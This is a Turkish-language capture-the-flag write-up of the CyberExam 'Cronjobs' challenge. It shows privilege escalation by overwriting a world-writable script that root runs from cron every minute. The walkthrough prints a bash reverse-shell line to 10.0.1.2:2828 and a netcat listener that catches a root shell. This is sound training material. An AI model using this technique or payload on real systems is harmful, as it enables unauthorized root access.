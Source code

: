 ```yaml
---
title: "CyberExam: Cronjobs Challenge"
author: b1lal
categories: [CyberExam]
tags: [linux, privilege escalation, cronjob]
render_with_liquid: false
media_subpath: /images/cyberexam_challenges_cronjob/
image:
  path: cron.png
---
```


**Cronjobs** challenge'ı basit-orta seviye bir yetki yükseltme odasıdır. Amacımız sistemde ayarlanmış olan cronjob'ı kullanarak yetki yükselterek kök dizindeki ***flag.txt*** dosyasını okumaktır. (*Aşağıdaki görsele tıklarsanız doğrudan challenge sayfasına yönlendirilirsiniz.*)

[![CyberExam Challenge Link](challenge.png){: width="750" height="750" .shadow}](https://learn.cyberexam.io/challenges/privilege-escalation/linux/cronjobs){: .center }

Bu challenge bizden iki soruya cevap vermemizi istiyor:
- Planlanan cronjob nedir ? (fullpath)
- **flag.txt** dosyasının içeriği nedir ?

Challenge'ı başlatıyoruz, birkaç dakika sonra başlıyor. 


## Cronjob Dosyasını Bulma

Burada ilk yaptığımız vakit kaybetmeden zamanlanmış görev olup olmadığını kontrol etmektir.


```console
┌──(user㉿ubuntu)-[~]
└─$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab`  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  

SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  

# Example of job definition:  
# .---------------- minute (0 - 59)  
# |  .------------- hour (0 - 23)  
# |  |  .---------- day of month (1 - 31)  
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...  
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat  
# |  |  |  |  |  
# *  *  *  *  * user-name command to be executed  
*/1 *  *  *  *  root  /tmp/cleanup.sh
17  *  *  *  *  root  cd / && run-parts --report /etc/cron.hourly  
25  6  *  *  *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47  6  *  *  7  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52  6  1  *  *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
```

<br>
<br>

Burada gözümüze doğrudan cleanup.sh dosyası çarpıyor. Bunu biraz daha detaylı inceleyelim.

```bash
*/1 * * * * root /tmp/cleanup.sh
```


## Crontab Dosyasının Özellikleri

### Zamanlama Bölümü (`*/1 * * * *`)

Crontab satırları, zamanlama bilgisi içeren **beş alandan** oluşur:


| Dakika (0-59) | Saat (0-23) | Gün (1-31) | Ay (1-12) | Hafta Günü (0-6, Pazar=0 veya 7) |
| :-----------: | :---------: | :--------: | :-------: | :------------------------------: |
|     `*/1`     |     `*`     |    `*`     |    `*`    |               `*`                |




<br>

- **`*/1`** → Her **1 dakikada bir** çalıştır.
- **`*` (diğerleri)** → **Her saat, her gün, her ay ve her hafta günü** çalıştır.

Bu nedenle, bu görev **her dakika çalışacaktır**.

---

### Kullanıcı Bölümü (`root`)

- **`root`** → Bu komut **root kullanıcısı** tarafından çalıştırılacaktır.
- `/etc/crontab` gibi sistem genelindeki crontab dosyalarında kullanıcı adı **belirtilmelidir**.

---

<br>

## Yetki Yükseltme

Şimdi bu dosyaya yazma hakkımızın olup olmadığını kontrol edelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ ls -l /tmp/cleanup.sh
-rwxrw-rw- 1 root root 36 Aug 25 2023 /tmp/cleanup.sh
```

Yazma hakkımızın olduğunu görüyoruz. Şimdi dosyanın içeriğini reverse shell alabileceğimiz şekilde değiştirelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ vim /tmp/cleanup.sh
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.1.2/2828 0>&1
```
{: file="cleanup.sh" }

Daha sonra verdiğimiz portu dinlemeye başlıyoruz.

```bash
┌──(user㉿ubuntu)-[~]
└─$ nc -nvlp 2828
```

```bash
listening on [any] 2828 ...
connect to [10.0.1.2] from (UNKNOWN) [10.0.1.2] 46052
bash: cannot set terminal process group (461): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:~#
```

Kısa bir süre sonra nc dinleyicimize bağlantı düşüyor. Şimdi **flag.txt** dosyasını okuyabiliriz.

```bash
┌──(user㉿ubuntu)-[~]
└─$ cat /flag.txt
cat /flag.txt
CyberPath{CENSORED}
```
<br>

İlk challenge'ımızı başarıyla tamamladık. Bir sonra yazılarda görüşmek üzere.

![Challenge Finished](challenge-finish.png){: width="1000" height="700"}

<style>

.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
.post-desc {
  font-family: 'Open Sans', sans-serif !important;
}
</style>
